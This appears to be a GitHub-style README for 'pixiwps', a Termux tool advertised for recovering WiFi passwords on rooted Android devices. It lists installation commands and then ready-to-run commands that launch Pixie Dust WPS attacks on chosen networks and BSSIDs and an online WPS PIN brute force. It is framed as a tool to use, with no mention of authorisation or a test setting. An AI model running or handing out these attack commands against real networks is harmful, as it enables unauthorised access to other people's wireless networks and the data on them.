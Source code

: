## PIXIWPS
### Fimd WIfi Passwords Using Termux! (Requires Root)

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/omnitx/pixiwps
$ cd pixiwps
$ chmod +x run.py
$ sudo python run.py --help
```

#### Example : `sudo python pixiwps/run.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python pixiwps/run.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python pixiwps/run.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python pixiwps/run.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
